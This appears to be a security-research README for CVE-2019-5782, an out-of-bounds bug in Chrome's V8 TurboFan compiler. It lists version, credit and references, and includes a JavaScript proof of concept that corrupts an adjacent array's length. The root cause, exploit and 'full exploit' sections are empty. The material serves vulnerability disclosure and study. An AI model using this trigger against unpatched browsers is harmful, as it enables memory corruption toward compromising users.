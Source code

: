 # [turbofan] Relax range for arguments object length
## Information
 
* Target Chrome  Release Version(official) : Chromium 70.0.3538.67 / v8 7.0.276.28
* Target Platform : Linux, Windows, Android, Mac
* CVE : 2019-5782
* Credit : Qixun Zhao of Qihoo 360 Vulcan Team(Tianfu Cup on 2018-11-16)
> [S0rryMybad](https://twitter.com/S0rryMybad/status/1090438643582267394, "S0rryMyBad Twitter") 
* Type of Vulnerability : Out-Of-Bounds vulnerability
* PoC has been tested only on Ubuntu 18.04 and Windows 10

## Root Cause

## Exploit

## PoC

> regress-crbug-906043.js
```javascript
function fun(arg) {
  let x = arguments.length;
  a1 = new Array(0x10);
  a1[0] = 1.1;
  a2 = new Array(0x10);
  a2[0] = 1.1;
  a1[(x >> 16) * 21] = 1.39064994160909e-309;  // 0xffff00000000
  a1[(x >> 16) * 41] = 8.91238232205e-313;  // 0x2a00000000
}

var a1, a2;
var a3 = [1.1, 2.2];
a3.length = 0x11000;
a3.fill(3.3);

var a4 = [1.1];

for (let i = 0; i < 3; i++) fun(...a4);
%OptimizeFunctionOnNextCall(fun);
fun(...a4);

res = fun(...a3);

assertEquals(16, a2.length);
for (let i = 8; i < 32; i++) {
  assertEquals(undefined, a2[i]);
}
```

### full exploit

```javascript

```

## Result

## Reference

* [Google Project Zero](https://bugs.chromium.org/p/chromium/issues/detail?id=906043, "Google Project Zero Monorail")
* [S0rryMybad](https://twitter.com/S0rryMybad/status/1090438643582267394, "S0rryMyBad Twitter")
* [v8 git commit](https://github.com/v8/v8/commit/8e4588915ba7a9d9d744075781cea114d49f0c7b, "v8 git commit")
* [v8 regress](https://github.com/v8/v8/blob/7.3.1/test/mjsunit/regress/regress-crbug-906043.js, "v8 regress")
